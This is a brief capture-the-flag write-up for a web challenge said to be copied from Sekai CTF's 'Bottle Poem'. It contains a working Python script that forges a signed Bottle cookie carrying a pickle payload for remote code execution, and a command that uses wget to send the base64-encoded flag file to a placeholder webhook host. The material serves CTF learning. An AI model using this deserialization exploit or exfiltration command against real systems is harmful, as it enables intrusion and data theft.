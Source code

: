 This one was a copied challenge from Sekai CTF (Bottle Poem).

Solution:
https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/bottle-poem/solution

Script to get RCE:
```
#!/usr/bin/env python3

from bottle import response
import sys

command = sys.argv[1]

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

response.set_cookie('name', {'name': 'admin', 'v': PickleRce()}, secret="trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")
print(f'Cookie: {response.headerlist[1][1]}')
```

To get flag:
```python3 solution-poems.py 'wget webhooklinkhere/?c=`/flag|base64`'```

And then replace the cookie with the output to get the flag.
